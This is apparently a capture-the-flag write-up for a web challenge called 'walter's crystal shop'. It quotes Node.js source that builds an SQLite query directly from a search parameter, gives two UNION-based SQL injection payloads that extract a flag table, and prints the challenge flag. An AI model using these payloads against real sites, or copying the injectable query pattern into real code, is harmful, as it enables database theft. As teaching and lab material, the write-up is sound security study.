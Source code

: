 # walter's crystal shop
162 solves / 241 points
> My buddy Walter is selling some crystals, check out his shop!

## About the Challenge
We were given a website and source code (You can download the source code [here](walters_crystal_shop.zip)). Searching a crystal name is the only functionality of the website

![Alt text](images/image.png)

## How to Solve?
Looking at the source code, the flag was stored in `flag` table with the column `flag`.
```js
...
db.run("CREATE TABLE IF NOT EXISTS flag (flag TEXT)");
db.run(`INSERT INTO flag (flag) VALUES ('${flag}')`);
...
```
And the website is vulnerable for SQL Injection (SQLite).
```js
app.get("/crystals", (req, res) => {
  const { name } = req.query;

  if (!name) {
    return res.status(400).send({ err: "Missing required fields" });
  }

  db.all(`SELECT * FROM crystals WHERE name LIKE '%${name}%'`, (err, rows) => {
    if (err) {
      console.error(err.message);
      return res.status(500).send('Internal server error');
    }

    return res.send(rows);
  });
});
```
Focusing on the databse query
```sql
SELECT * FROM crystals WHERE name LIKE '%${name}%'
```
If we use the website's search bar and enter `h` the query will be like this
```sql
SELECT * FROM crystals WHERE name LIKE '%$h%'
```
With knowledge in SQLite documentation, to unite tables with different columns we must have same column name as the one with greater columns. We can enter the search bar with
```
%' UNION SELECT flag as name, Null as price, Null as quantity FROM flag WHERE flag LIKE '%ctf
```
The query would be
```sql
SELECT * FROM crystals WHERE name LIKE '%%' UNION SELECT flag as name, Null as price, Null as quantity FROM flag WHERE flag LIKE '%ctf%'
```
![Alt text](images/image2.png)
```
nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}
```
## Alternative Solution
Using SQL Injection Payload
```
' union select (select * from flag),2,3-- -
```